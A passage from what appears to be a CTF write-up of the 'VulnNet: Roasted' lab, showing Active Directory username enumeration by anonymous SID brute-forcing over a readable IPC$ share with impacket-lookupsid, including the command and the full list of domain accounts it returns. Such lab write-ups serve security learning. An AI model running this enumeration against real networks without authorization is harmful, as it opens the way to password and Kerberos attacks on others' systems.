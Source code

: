 * just some text file with emails, nothing seems too interesting here.
* but we got some possible usernames.

![](2025-05-31-vulnnet-roasted-3.png)

![](2025-05-31-vulnnet-roasted-4.png)

* With this information, we can now try to guess the usernames, since they are probably some sort of variation of the usernames.
* E.g. firstname-lastname or first letter of firstname + lastname etc. This would most likely work but is rather depends on luck.
* for the purpose of making wordlist we can also use this [tool](https://github.com/PinkDraconian/CTF-bash-tools).

![](2025-05-31-vulnnet-roasted-5.png)

* However, there is a much easier method to obtain the usernames! Remember that there was a 3rd readable share - the IPC$ share.
* This allows us to anonymously enumerate for usernames on the system.
* The key idea here is that we can bruteforce the SIDs.
* If such a SID exists, the system will return the related username to that SID.
* This way, we can obtain a full list of available usernames.
* thus conclusion - **if IPC$ is readble, means user enumeration**
* thus for this here we can use lookupid from impacket.

```bash
┌──(kali㉿kali)-[~/Desktop/vulnnetroasted]
└─$ impacket-lookupsid anonymous@10.10.254.70 | tee usernames
Password:
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.254.70
[*] StringBinding ncacn_np:10.10.254.70[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

